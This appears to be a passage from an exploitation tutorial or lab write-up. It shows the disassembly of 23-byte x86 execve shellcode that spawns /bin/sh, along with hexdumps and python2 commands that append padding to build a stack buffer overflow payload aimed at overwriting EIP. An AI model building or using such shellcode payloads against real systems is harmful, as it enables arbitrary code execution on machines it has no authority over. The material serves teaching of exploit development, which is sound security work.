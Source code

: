 By help of **objcopy**, we copied the **.text section** in raw-hex format into the **exploit.bin** file.

```nasm
$ objdump -D exploit -M intel

exploit:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    eax,eax
 8048062:	50                   	push   eax
 8048063:	68 6e 2f 73 68       	push   0x68732f6e
 8048068:	68 2f 2f 62 69       	push   0x69622f2f
 804806d:	89 e3                	mov    ebx,esp
 804806f:	31 c9                	xor    ecx,ecx
 8048071:	31 d2                	xor    edx,edx
 8048073:	b0 0b                	mov    al,0xb
 8048075:	cd 80                	int    0x80
```

As seen on command output below, 23 bytes of shellcode is written in exploit.bin file in raw hex format.

```x86asm
$ ls -l exploit.bin 
-rwxrwxr-x 1 c c 23 Mar  1 04:21 exploit.bin

$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 0080
```

We need some padding with 76 bytes of data as an offset, therefore whatever is written after those bytes will be written onto **eip** register.

```x86asm
$ python2 -c 'print "A"*53' >> exploit.bin 

$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141 000a
```

As seen on the output above, there is a **newline character** in our exploit **0a41**. This can be a badchar for our target binary. To be avoid of terminations we can use the following python code below, be sure you deleted and compiled the **exploit.bin** again.

```x86asm
$ python2 -c 'import sys; sys.stdout.write("A"*53)' >> exploit.bin

$ hexdump -v exploit.bin
0000000 c031 6850 2f6e 6873 2f68 622f 8969 31e3
0000010 31c9 b0d2 cd0b 4180 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 4141 4141 4141
0000030 4141 4141 4141 4141 4141 4141 4141 4141
0000040 4141 4141 4141 4141 4141 4141
```
